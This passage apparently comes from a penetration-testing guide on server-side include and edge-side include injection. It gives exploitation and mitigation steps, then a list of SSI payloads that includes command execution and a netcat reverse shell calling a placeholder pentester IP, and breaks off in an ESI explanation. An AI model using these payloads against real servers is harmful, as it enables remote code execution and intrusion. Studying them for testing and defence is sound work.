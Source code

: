 5. **Exploit the vulnerability**: If you find a SSI or ESI Injection vulnerability, you can exploit it to achieve various goals, such as executing arbitrary commands on the server, accessing sensitive files, or performing remote code execution.

6. **Mitigate the vulnerability**: To mitigate SSI and ESI Injection vulnerabilities, ensure that user-controllable input is properly validated and sanitized before being processed by the server. Use input validation techniques like whitelisting or input encoding to prevent malicious code injection.

By following these steps, you can effectively test for and exploit SSI and ESI Injection vulnerabilities in web applications. However, always ensure that you have proper authorization and legal permission before conducting any penetration testing activities.
```javascript
// Document name
<!--#echo var="DOCUMENT_NAME" -->
// Date
<!--#echo var="DATE_LOCAL" -->

// File inclusion
<!--#include virtual="/index.html" -->
// Including files (same directory)
<!--#include file="file_to_include.html" -->
// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->
// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->
// Modification date of a file
<!--#flastmod file="index.html" -->

// Command exec
<!--#exec cmd="dir" -->
// Command exec
<!--#exec cmd="ls" -->
// Reverse shell
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->

// Print all variables
<!--#printenv -->
// Setting variables
<!--#set var="name" value="Rich" -->

```
## Edge Side Inclusion

There is a problem **caching information or dynamic applications** as part of the content may have **varied** for the next time the content is retrieved. This is what **ESI** is used form, to indicate using ESI tags the **dynamic content that needs to be generated** before sending the cache version.\
if an **attacker** is able to **inject an ESI tag** inside the cache content, then, he could be able to i**nject arbitrary content** on the document before it's sent to the users.
